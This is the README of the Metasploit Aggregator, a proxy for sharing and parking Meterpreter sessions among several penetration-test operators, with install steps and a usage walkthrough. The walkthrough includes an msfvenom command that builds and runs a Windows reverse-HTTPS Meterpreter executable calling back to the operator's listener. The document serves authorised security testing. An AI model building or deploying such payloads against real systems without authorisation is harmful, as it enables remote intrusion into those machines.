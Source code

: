 Metasploit [![Build Status](https://travis-ci.org/rapid7/metasploit-aggregator.svg?branch=master)](https://travis-ci.org/rapid7/metasploit-aggregator) [![Code Climate](https://img.shields.io/codeclimate/github/rapid7/metasploit-aggregator.svg)](https://codeclimate.com/github/rapid7/metasploit-aggregator)
==
The Metasploit Aggregator is released under a BSD-style license. See
LICENSE for more details.

Bug tracking and development information can be found at:
 https://github.com/rapid7/metasploit-aggregator

New bugs and feature requests should be directed to:
  https://github.com/rapid7/metasploit-aggregator/issues/new

Questions and suggestions can be sent to:
  https://groups.google.com/forum/#!forum/metasploit-hackers

## Metasploit Aggregator

The Metasploit Aggregator is a proxy for Meterpreter sessions. Normally, Meterpreter sessions connect directly to a Metasploit listener. However, this has a few problems:

 1. Multiple users cannot easily share the session once it is established, without some sort of external multiplexing scheme, such as running msfconsole in a screen session. While Metasploit Pro solves this issue to a certain extent, it is also limited by the number of users that can simultaneously  interact with shared sessions.

 1. Running a full msfconsole on a remote listener is resource intensive because it uses multiple threads per connection. It has a hard time scaling reliably to thousands of sessions, and even fewer on Windows platforms.

 1. The design requires either running different copies of msfconsole, or putting all of your eggs in one basket. It is difficult to distribute sessions across many endpoints and have a global view of them all.

The Metasploit Aggregator solves these problems by implementing an event-driven listener that stands between msfconsole and Meterpreter. It can scale to thousands of connections, but only needs to make a single connection with Metasploit Framework to manage them all.  Sessions can be shared between multiple users without any changes to the Meterpreter session
Itself, such as by modifying the session transport configuration. The redirection of a session occurs behind the scenes on the control channel between Metasploit Aggregator and msfconsole.

## Glossary

Metasploit Aggregator introduces a few new concepts.

* A **‘parked’** session is one that is terminated entirely by Metasploit Aggregator. This means that the minimal interaction with the session to simply keep it alive is handled by the aggregator automatically. A user can attach to a session at any time in order to interact with it.

* A **‘cable’** is a listening port that the aggregator opens to accept new connections from Meterpreter. This is analogous to starting a handler on msfconsole.

* The **‘default forward’** address is the location of a msfconsole instance that serves as a helper for Metasploit Aggregator. Metasploit Aggregator currently does not know how to handle staged sessions, request session details, or how to deal with AutoRun scripts. The default forward is where a session connecting to a cable is redirected on initial connection. The connection is enumerated for details of the target and continues to communicates with the default forward until requested specifically by another console or parked by request of the default forward.

* A **‘forwarded’** session is one that terminates at the aggregator, but is then proxied to a msfconsole instance. The session is forwarded over a control channel connection to the aggregator. When you are done interacting with a session, it can be moved back to a ‘parked’ state for other users to use. Note: any user can steal a session if desired and forward it to a different msfconsole instance.

## Installing
Standalone installation: ```gem install metasploit-aggregator```.

## Usage

To use Metasploit Aggregator, first start an instance of the aggregator itself. This is automatically packaged with Metasploit Framework, or can be installed standalone by running `gem install metasploit-aggregator`. The aggregator binary is called `metasploit-aggregator`, and listens on address 127.0.0.1, port 2447. Because the aggregator does not provide encryption or authentication by itself, to connect to a remote instance, we suggest using SSH port forwarding or some other tunneling technology to reach a remote aggregator.

On the system hosting the aggregator:
```
metasploit-framework$ metasploit-aggregator 
2017-03-06 13:17:32 -0600 Starting administration service on 127.0.0.1:2447
```

On the client system:
```
ssh user@aggregator -L 127.0.0.1:2447:127.0.0.1:2447
```

Next, start a msfconsole instance and load the aggregator plugin. This will allow you to interact with the remote aggregator. This is also required to setup the default forward msfconsole instance. Setup the msfconsole instance to be the default forward. This instance will see all connections when they first arrive.

```none
metasploit-framework$ ./msfconsole 
                                                  
  +-------------------------------------------------------+
  |  METASPLOIT by Rapid7                                 |
  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |""""""""""""|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            // \\          | |_____________\_______    |
  |           //   \\         | |==[msf >]============\   |
  |          //     \\        | |______________________\  |
  |         // RECON \\       | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        //         \\      |  *********************    |
  +---------------------------+---------------------------+
  |      o O o                |        \'\/\/\/'/         |
  |              o O          |         )======(          |
  |                 o         |       .'  LOOT  '.        |
  | |^^^^^^^^^^^^^^|l___      |      /    _||__   \       |
  | |    PAYLOAD     |""\___, |     /    (_||_     \      |
  | |________________|__|)__| |    |     __||_)     |     |
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |
  |  = = = = = = = = = = = =  |     '--------------'      |
  +---------------------------+---------------------------+


       =[ metasploit v4.14.1-dev-5383900                  ]
+ -- --=[ 1627 exploits - 928 auxiliary - 282 post        ]
+ -- --=[ 472 payloads - 39 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > load aggregator 
[*] Aggregator interaction has been enabled
[*] Successfully loaded plugin: aggregator
msf > aggregator_connect 127.0.0.1:2447
[*] Connecting to Aggregator instance at 127.0.0.1:2447...
msf > 
```

Startup a new cable to begin listening for Meterpreter sessions from the aggregator. You can optionally specify an SSL certificate for it to serve over HTTPS as well. You can verify that the cable is listening with the `aggregator_cables` command. This will also start a new handler automatically on the default forward instance of msfconsole to handle new sessions as they arrive.

```
msf > aggregator_cable_add 192.168.1.10:8443
msf > aggregator_default_forward 
msf >
```

Now, point a Meterpreter session at the cable address and port. You should see a new session on the default forward console. You can now park this session with the aggregator_session_park command.

```
C:\metasploit-framework> msfvenom -p windows/meterpreter_reverse_https LHOST=192.168.1.10 LPORT=8443 -f exe -o launch-stageless.exe
C:\metasploit-framework> launch-stageless.exe
```

Resulting session created:

```
msf > [*] Meterpreter session 1 opened (127.0.0.1:53414 -> 127.0.0.1:53519) at 2017-03-06 13:46:23 -0600
```

To view all available sessions, use the aggregator_sessions command:

```
msf > aggregator_sessions
[*] Sessions found:
[*] 	 Remote ID: 1
[*] 	      Type: meterpreter windows
[*] 	      Info: DESKTOP-KAO0P3O\user @ DESKTOP-NAME
[*] 	    Tunnel: 192.168.1.10:8443 -> 192.168.1.11:53528
[*] 	       Via: exploit/multi/handler
[*] 	      UUID: 8121940d2f5c4b1f/x86=1/windows=0/2016-12-15T22:03:16Z
[*] 	 MachineID: 1e2b16f37eab2324b9089cd93f16533b
[*] 	   CheckIn: 3s ago
[*] 	Registered: Not Yet Implemented
[*] 	   Forward: 50ab485d-dbe3-4045-95c4-c9abd45c1683
[*] 	Session ID: 1
[*] 
```

To forward an available session to your console, use the aggregator_session_forward command:

```
msf > aggregator_sessions
[*] Sessions found:
[*] 	 Remote ID: 1
[*] 	      Type: meterpreter windows
[*] 	      Info: DESKTOP-KAO0P3O\user @ DESKTOP-NAME
[*] 	    Tunnel: 192.168.1.10:8443 -> 192.168.1.11:53528
[*] 	       Via: exploit/multi/handler
[*] 	      UUID: 8121940d2f5c4b1f/x86=1/windows=0/2016-12-15T22:03:16Z
[*] 	 MachineID: 1e2b16f37eab2324b9089cd93f16533b
[*] 	   CheckIn: 6s ago
[*] 	Registered: Not Yet Implemented
[*] 	   Forward: parked
[*] 
msf > aggregator_session_forward 1
msf > [*] Meterpreter session 2 opened (127.0.0.1:53414 -> 127.0.0.1:54066) at 2017-03-06 13:50:51 -0600
```

Finally, to disconnect from the aggregator, use the aggregator_disconnect command:

```
msf > aggregator_disconnect 
[*] 127.0.0.1 - Meterpreter session 2 closed.
msf > 
```

During disconnect, the console will park any sessions explicitly requested by the user.  If the console is registered as the “default forward” any sessions that have not been specifically requested will park, however the next console that registers as the default forward will be passed these passively parked sessions.

## Contributing
[Contributing](https://github.com/rapid7/metasploit-aggregator/blob/master/CONTRIBUTING.md).

Expanding protobuf service use
```grpc_tools_ruby_protoc -I ../protos --ruby_out=lib --grpc_out=lib ../protos/metasploit/aggregator/*```

